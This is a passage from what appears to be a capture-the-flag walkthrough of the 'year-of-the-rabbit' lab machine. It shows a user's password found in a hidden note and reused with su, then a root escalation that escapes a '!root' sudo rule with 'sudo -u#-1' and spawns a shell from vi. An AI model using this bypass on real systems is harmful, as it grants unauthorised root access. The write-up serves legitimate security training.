 ```
<SNIP>
```
Then, inside it, we have `.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!` file:
```
Your password is awful, Gwendoline. 
It should be at least 60 characters long! Not just MniVCQVhQHUNI
Honestly!

Yours sincerely
   -Root
```
Let's jump on Gwendoline user:
```
su gwendoline
Password: MniVCQVhQHUNI

cat /home/gwendoline/user.txt
```

## Phase 3: Privilege Escalation

Run:
```
sudo -l

Matching Defaults entries for gwendoline on year-of-the-rabbit:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User gwendoline may run the following commands on year-of-the-rabbit:
    (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
```
`ALL` means we can run that specific command on behalf of any user, but since we have also `!root`, all users except root. But we can bypass it by running:
```
sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
```
Then we can call the shell inside VI.

In this way we bypassed the `!root` security check because Sudo doesn't check for the existence of the specified user id and executes it with arbitrary user id with the sudo priv, `-u#-1` returns as 0 which is root's id.